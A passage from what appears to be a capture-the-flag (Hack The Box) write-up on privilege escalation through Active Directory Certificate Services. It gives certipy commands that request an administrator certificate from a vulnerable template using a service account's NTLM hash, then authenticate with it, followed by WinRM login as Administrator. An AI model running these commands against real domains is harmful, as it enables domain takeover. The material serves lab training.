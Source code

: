     ![image.png](image%2061.png)
    
2. **Requesting a Certificate via the Vulnerable Template**:
    
    ```bash
    certipy req \
    -u 'infiltrator_svc$@tombwatcher.htb' -hashes '653b2726881d6e5e9ae3690950f9bcc4' \
    -dc-ip '10.10.11.31' -target 'DC01.INFILTRATOR.HTB' \
    -ca 'infiltrator-DC01-CA' -template 'Infiltrator_Template' \
    -upn 'administrator@infiltrator.htb' -sid 'S-1-5-21-2606098828-3734741516-3625406802-500'
    ```
    
    ![image.png](image%2062.png)
    
3. **Authenticating with the Certificate**:
    
    ```bash
    certipy auth -pfx administrator.pfx -dc-ip 10.10.11.31
    ```
    
    ![image.png](image%2063.png)
    

### Root

Logging in as **Administrator** via WinRM:

![image.png](image%2064.png)